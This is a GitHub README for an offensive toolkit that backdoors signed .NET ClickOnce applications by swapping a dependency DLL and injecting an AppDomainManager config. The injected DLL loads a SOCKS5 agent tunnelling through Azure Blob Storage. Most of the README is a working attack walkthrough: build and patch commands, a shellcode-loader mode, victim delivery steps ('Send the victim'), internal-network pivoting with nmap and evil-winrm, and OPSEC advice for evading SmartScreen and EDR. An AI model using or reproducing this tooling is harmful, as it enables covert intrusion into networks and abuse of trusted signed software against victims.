










# ClickOnce AppDomainManager Injection Toolkit


Weaponize signed .NET ClickOnce applications for initial access by hijacking a dependency DLL via AppDomainManager injection and loading a C# port of ProxyBlob Agent. Ships with a C# port of [ProxyBlob](https://github.com/quarkslab/proxyblob) — a SOCKS5 proxy that tunnels all traffic through Azure Blob Storage, blending into environments where `*.blob.core.windows.net` is whitelisted.

## Why This Works

ClickOnce is Microsoft's one-click deployment technology for .NET apps. When a user clicks a `.application` URL, Windows downloads and runs the app with no admin privileges required. The attack:

1. Take a **legitimate, signed** ClickOnce application with an existing reputation
2. **Replace** one of its dependency DLLs with the ProxyBlob SOCKS5 agent
3. **Inject** a `.exe.config` that tells the CLR to load our DLL as the AppDomainManager
4. **Patch** the manifest hashes to match our new files
5. **Host** it — the victim clicks the link, gets a real-looking app, and you get a SOCKS5 tunnel

The host `.exe` remains untouched and validly signed. SmartScreen sees a known binary. EDR sees a trusted process loading modules. Your agent communicates only with Azure Blob Storage over HTTPS.



## Repository Structure

```
├── clickonce_backdoor.py              # Main script for backdooring ProxyBlob Agent DLL to ClickOnce App
├── examples/
│   ├── ProxyBlobAgent.cs              # ProxyBlob Agent ClickOnce DLL payload (AppDomainManager)
│   ├── ProxyBlobStandalone.cs         # Standalone Proxyblob console agent (for testing)
│   ├── ShellcodeLoader.cs             # Alternative: shellcode loader payload
│   └── MessageBoxPoC.cs               # PoC: message box (validates injection works)
└── README.md
```

## Prerequisites

**Attacker (Linux/macOS):**
- Python 3.10+ 
- [ProxyBlob proxy](https://github.com/quarkslab/proxyblob) (Go binary)
- Azure Storage Account (or [Azurite](https://github.com/Azure/Azurite) for local testing)

**Build machine (Windows):**
- .NET Framework csc.exe — ships at `C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe` (auto-detected)
- NuGet CLI — [download](https://www.nuget.org/downloads), place `nuget.exe` next to the script or add to PATH (only needed for `--proxyblob` mode)

The script auto-detects `csc.exe` and `nuget.exe`. For `--proxyblob`, BouncyCastle and ILMerge are auto-installed via NuGet on first run into a `packages/` directory next to the script (persists across runs).

## Architecture Support

The agent code is architecture-neutral (no P/Invoke, no shellcode). The `--platform` flag (passed to `csc.exe /platform:`) controls how the CLR loads it:

| `--platform` | Runs on x86 Windows | Runs on x64 Windows | When to use |
|--------------|---------------------|---------------------|-------------|
| `x86` (default) | 32-bit | 32-bit (WoW64) | Target app is x86 |
| `x64` | ✗ | 64-bit | Target app is x64 |
| `anycpu` | 32-bit | 64-bit | Standalone testing, or target is AnyCPU |

Check a target app with `corflags.exe TargetApp.exe` to determine its platform.

---

## Usage: End-to-End Walkthrough

### Step 1 — Set Up Azure Storage

```bash
# Create storage account
az storage account create \
    --name yourblobaccount \
    --resource-group yourgroup \
    --sku Premium_LRS \
    --kind BlockBlobStorage

# Get keys
az storage account keys list --account-name yourblobaccount --output table
```

Or use Azurite locally:
```bash
docker run -p 10000:10000 mcr.microsoft.com/azure-storage/azurite
```

### Step 2 — Start ProxyBlob Proxy

```bash
git clone https://github.com/quarkslab/proxyblob && cd proxyblob && make

cat > config.json << 'EOF'
{
    "storage_account_name": "yourblobaccount",
    "storage_account_key": "YOUR_KEY_HERE"
}
EOF

./proxy -c config.json
```

In the proxy shell:
```
proxyblob » create
[+] Created container: d646856a-5ae9-4328-bcfc-d85e762aa345
[+] Connection string: aHR0cHM6Ly95b3VyYmxvYmFjY291bnQuYmxvYi5jb3JlLndpbmRvd3MubmV0Ly4uLg==
```



Save that connection string — it goes into the agent.

### Step 3 — Test with Standalone Agent First

Always verify the agent works independently before ClickOnce integration.

On the Windows build machine:

```powershell
# Compile
csc.exe /platform:anycpu /out:ProxyBlobStandalone.exe ^
    examples\ProxyBlobStandalone.cs ^
    /r:packages\BouncyCastle.Cryptography.2.5.1\lib\netstandard2.0\BouncyCastle.Cryptography.dll ^
    /r:System.Net.Http.dll /r:netstandard.dll

# ILMerge into single exe (so BouncyCastle is embedded)
packages\ILMerge.3.0.41\tools\net452\ILMerge.exe ^
    /out:Agent.exe ^
    ProxyBlobStandalone.exe ^
    packages\BouncyCastle.Cryptography.2.5.1\lib\netstandard2.0\BouncyCastle.Cryptography.dll ^
    /targetplatform:v4

# Run
Agent.exe <connection-string>
```

Back on the proxy:
```
proxyblob » list
  d646856a │ username@DESKTOP │ active
proxyblob » select d646856a
proxyblob » start
[+] SOCKS5 proxy listening on 127.0.0.1:1080
```

Test:
```bash
proxychains curl http://ipconfig.io
```

If this works, proceed to ClickOnce integration.

### Step 4 — Find a Target ClickOnce App

Find a target ClickOnce app during recon (search for `.application` URLs). You need:

Download the entire ClickOnce deployment:
```bash
# https://github.com/api0cradle/RedTeamScripts/blob/main/application_downloader.py
python3 application_downloader.py -u https://target-site.com/APPLICATION.application
```



### Step 5 — Build and Patch in One Command

The script auto-compiles the C# source, handles NuGet dependencies (for `--proxyblob`), ILMerges BouncyCastle into the DLL, and patches all manifests — all in a single run:



```bash
# ProxyBlob mode — auto-compiles, auto-installs NuGet packages, auto-merges
python clickonce_backdoor.py \
    --input ./APPLICATION.application \
    --url http://YOUR-SERVER \
    --proxyblob "aHR0cHM6Ly95b3VyYmxvYmFjY291bnQ..." \
    --output ./output

# PoC mode — quick validation that injection works
python clickonce_backdoor.py \
    --input ./APPLICATION.application \
    --url http://YOUR-SERVER \
    --poc --output ./output

# Shellcode mode
python clickonce_backdoor.py \
    --input ./APPLICATION.application \
    --url http://YOUR-SERVER \
    --shellcode beacon.bin --output ./output

# x64 target app
python clickonce_backdoor.py \
    --input ./APPLICATION.application \
    --url http://YOUR-SERVER/ \
    --proxyblob "aHR0cHM6Ly95b3VyYmxvYmFjY291bnQ..." \
    --platform x64 --output ./output
```



The script handles: generating the C# source with your settings baked in, compiling via `csc.exe`, ILMerging BouncyCastle (for `--proxyblob`), replacing the DLL, creating `.exe.config` with AppDomainManager injection, adding both files to manifests, recalculating all SHA256 hashes and file sizes, stripping code signatures, zeroing the vendor publicKeyToken, and updating the deployment provider URL.

**Manual override:** You can still use `--payload` to supply a pre-compiled DLL (skips compilation):
```bash
python clickonce_backdoor.py \
    --input ./APPLICATION.application \
    --url http://YOUR-SERVER \
    --payload payload.dll \
    --output ./output
```

> **⚠️ ILMerge Assembly Name Gotcha:** ILMerge sets the internal assembly name from the **output filename**, not the input. If you merge to `Foo_merged.dll` and then rename the file to `Foo.dll`, the internal name is still `Foo_merged` — the CLR reads metadata, not the filename. The `.exe.config` won't match, and AppDomainManager injection silently fails with no error. The script handles this correctly by ILMerging directly to the final name.

### Step 6 — Host and Deliver

```bash
# Built-in server with correct MIME types and cache headers
python3 clickonce_backdoor.py serve --port 8000 --dir ./output
```



Or use any web server with these MIME types configured:
```
.application  → application/x-ms-application
.manifest     → application/x-ms-manifest
.deploy       → application/octet-stream
```

Send the victim: `http://YOUR-SERVER/APPLICATION.application`

They click Install → the app runs → your SOCKS5 tunnel opens.



### Step 7 — Use the Tunnel

```bash
# On the proxy machine
proxyblob » list
proxyblob » select <container-id>
proxyblob » start

# SOCKS5 on 127.0.0.1:1080
proxychains nmap -sT -Pn 10.0.0.0/24
proxychains evil-winrm -i 10.0.0.50 -u admin -p password
proxychains curl http://internal-app.corp.local
```







---

## Troubleshooting

### Compilation

| Error | Fix |
|-------|-----|
| `csc.exe not found` | Install .NET Framework 4.x or add `csc.exe` to PATH |
| `nuget.exe not found` | Download from nuget.org, place next to script or add to PATH |
| `CS0012: type 'Object' ... netstandard` | Add `/r:netstandard.dll` to the csc command |
| `Metadata file ... net461 ... not found` | Use the `netstandard2.0` BouncyCastle path |

### Runtime

| Symptom | Cause | Fix |
|---------|-------|-----|
| `FileNotFoundException: BouncyCastle.Cryptography` | DLL not embedded | Use ILMerge to create single DLL |
| AppDomainManager not loading after ClickOnce run | Internal assembly name mismatch | Assembly name must match `.exe.config`. Check with `ildasm /text Dll.dll \| findstr ".assembly"` |
| Agent exits with code 3 | Connection string invalid or expired | Regenerate with `create` in proxy |
| ClickOnce install fails silently | Manifest hash mismatch | Re-run automation script or recalculate SHA256 hashes manually |
| `RefDefValidation` error during install | Third-party DLL strong-name token zeroed | The script only zeros the vendor token. Use `--dll-name` to set the payload DLL name if needed |

### ClickOnce Cache

Clear between test deployments:
```powershell
rundll32 dfshim CleanOnlineAppCache
```

### Diagnostic Mode

For debugging, use `ProxyBlobStandalone.cs` first — it writes detailed logs to stderr showing packet types, connection events, and errors. Once confirmed working, switch to `ProxyBlobAgent.cs` for ClickOnce integration.

---

## How the C# Agent Works

The agent is a faithful port of the [Go ProxyBlob agent](https://github.com/quarkslab/proxyblob/blob/main/cmd/agent/main.go). Three critical bugs were found and fixed during the port:

**1. UUID Byte Order** — Go's `uuid.UUID` stores 16 bytes in RFC 4122 (big-endian) order. .NET's `Guid` constructor swaps the first 3 components to little-endian, causing ConnectionID mismatches on the wire. Fixed by using raw `byte[16]` arrays.

**2. XChaCha20-Poly1305** — Go uses `chacha20poly1305.NewX()` = XChaCha20 with 24-byte nonces. BouncyCastle's `ChaCha20Poly1305` only supports 12-byte IETF nonces. Fixed by implementing HChaCha20 subkey derivation:
```
subkey     = HChaCha20(key, nonce[0:16])     // ChaCha20 quarter-rounds on key+nonce
ietf_nonce = 0x00000000 || nonce[16:24]      // Remaining 8 bytes become IETF nonce
ciphertext = ChaCha20Poly1305(subkey, ietf_nonce, plaintext)
```

**3. Base64 Padding** — Go uses `base64.RawStdEncoding` (no `=` padding). .NET requires padding. Fixed by auto-padding before decode.

### Protocol

```
Packet: [Command:1B][ConnectionID:16B][DataLength:4B BE][Payload:var]
Commands: NEW(0x01) ACK(0x02) DATA(0x03) CLOSE(0x04)

Key Exchange:
  Proxy  → Agent: CmdNew  [nonce:24][pubkey:32]
  Agent  → Proxy: CmdAck  [agentPubkey:32]
  Symmetric key:  HKDF-SHA3-256(X25519(privA, pubB), salt=nonce, info=nil)
  Encryption:     XChaCha20-Poly1305 on all CmdData payloads

Blob Transport:
  info     — username@hostname XOR 0xDEADB10B
  request  — proxy→agent (agent polls, reads, clears)
  response — agent→proxy (agent writes, proxy reads, clears)
  Polling: exponential backoff 50ms → 3s (×1.5)
```

---

## OPSEC Notes

- Traffic goes only to `*.blob.core.windows.net` over HTTPS — blends with legitimate Azure traffic
- No Azure SDK — raw HTTP REST API with SAS token auth (smaller binary, fewer imports to flag)
- Single DLL via ILMerge — no additional files dropped alongside the app
- Host `.exe` stays validly signed — only the dependency DLL and `.config` are modified
- Agent runs as a foreground thread — survives host app exit without spawning a new process
- Process appears in Task Manager as the legitimate app name (e.g., `APPLICATION`)

---

## Credits

- [Claude.ai](https://claude.ai)
- [ProxyBlob](https://github.com/quarkslab/proxyblob) — Quarkslab (Alexandre Nesic)
- [ClickOnce Research](https://posts.specterops.io/less-smartscreen-more-caffeine-ab-using-clickonce-for-trusted-code-execution-1571c6b96a95) — SpecterOps (Nick Powers & Steven Flores)

## Disclaimer

This tool is for authorized security testing and research only. Only use against systems you have explicit written permission to test.